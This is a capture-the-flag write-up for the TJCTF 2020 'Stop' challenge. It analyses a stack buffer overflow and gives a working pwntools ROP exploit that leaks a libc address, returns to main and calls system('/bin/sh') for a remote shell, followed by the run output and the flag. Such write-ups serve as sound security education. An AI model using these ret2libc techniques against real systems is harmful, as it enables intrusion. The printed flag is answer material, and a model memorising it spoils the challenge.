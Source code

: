 # TJCTF 2020

## Stop

> 70
>
> I love playing stop, but I am tired of losing. Check out my new [stop answer generator](stop)!
>
> It's a work in progress and only has a few categories, but it's 100% bug-free!
> 
> `nc p1.tjctf.org 8001`
>
> Written by KyleForkBomb

Tags: _pwn_ _x86-64_ _bof_ _remote-shell_ _rop_ _libc_


## Summary

Leak libc address and version, return to `main` for a second exploit, get a shell, get the flag.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Some mitigations.  !GOT.  No shellcode.  But, we have ROPtions (no PIE).  Stack left wide open, too.

    
### Decompile with Ghidra

![](main.png)

Lines 8 and 34 together are the vulnerability; a buffer (`local_118`) of `256` bytes, but read allows `0x256` (598) bytes.  Before we can do anything interesting we'll have to leak the address and version of libc.  Since there's no loop, we'll also have to return to main for a second pass.

`local_118` is `0x118` bytes above the return address:

```
             undefined8        RAX:8              <RETURN>
             undefined4        Stack[-0xc]:4      local_c
             undefined4        Stack[-0x10]:4     local_10
             undefined4        Stack[-0x14]:4     local_14
             undefined4        Stack[-0x18]:4     local_18
             undefined1        Stack[-0x118]:1    local_118
```

Both attacks will write out `0x118` bytes to get to the return address.


## Exploit

### Attack Plan

1. Leak libc address and version and return to main
2. Get a shell, get the flag


### Leak libc address and version and return to main

```python
#!/usr/bin/python3

from pwn import *

#p = process('./stop')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = remote('p1.tjctf.org', 8001)
libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')

binary = ELF('./stop')

context.clear(arch='amd64')
rop = ROP('stop')
try:
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)

p.recvuntil('Which letter? ')
p.sendline('A')
p.recvuntil('Category? ')

payload  = b''
payload += 0x118 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(binary.got['printf'])
payload += p64(binary.plt['printf'])
payload += p64(pop_rdi + 1)
payload += p64(binary.symbols['main'])

p.sendline(payload)
p.recvline()
p.recvline()
_ = p.recv(6)
```

Since there's no PIE we do not need to worry about leaking the base process address.  All we need is a `pop rdi` gadget and have `printf` print its own address.

> The extra returns (`payload += p64(pop_rdi + 1)`) is required to align the stack, see [Blind Piloting](https://github.com/datajerk/ctf-write-ups/blob/master/b01lersctf2020/blind-piloting/README.md) for a lengthly example and explanation.

After sending `0x118` bytes to get to the return address, we just pop a return, then pop the address of `printf` from the GOT, then call `printf` to print it, then align the stack again , and then return to main for a second run.

With the `printf` address leaked (`_ = p.recv(6)`) we can search for the version using the [libc-database](https://github.com/niklasb/libc-database) `find` command with the last three nibbles of the `printf` address:

```
# libc-database/find printf e80 | grep -v 386
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb (id libc6_2.27-3ubuntu1_amd64)
```

Then rerun with:

```
libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')
```

to then leak the base address of libc:

```
printf = u64(_ + 2*b'\x00')
print('printf:',hex(printf))
baselibc = printf - libc.symbols['printf']
print('baselibc:',hex(baselibc))
```

> You'll know you got this right if the last three digits of the libc address is all zeros.  See output below.


### Get a shell, get the flag

```python
p.recvuntil('Which letter? ')
p.sendline('A')
p.recvuntil('Category? ')

payload  = b''
payload += 0x118 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(baselibc + next(libc.search(b"/bin/sh")))
payload += p64(baselibc + libc.symbols['system'])

p.sendline(payload)
p.interactive()
```

For the second pass, align the stack, pop the address of the string `/bin/sh` from libc, and then _return_ to `system` to get a shell:

```
# ./exploit.py
[+] Opening connection to p1.tjctf.org on port 8001: Done
[*] '/pwd/datajerk/tjctf2020/stop/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/tjctf2020/stop/stop'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 15 cached gadgets for 'stop'
printf: 0x7f4877692e80
baselibc: 0x7f487762e000
[*] Switching to interactive mode

Sorry, we don't have that category yet
$ cat flag.txt
tjctf{st0p_th4t_r1ght_now}
```
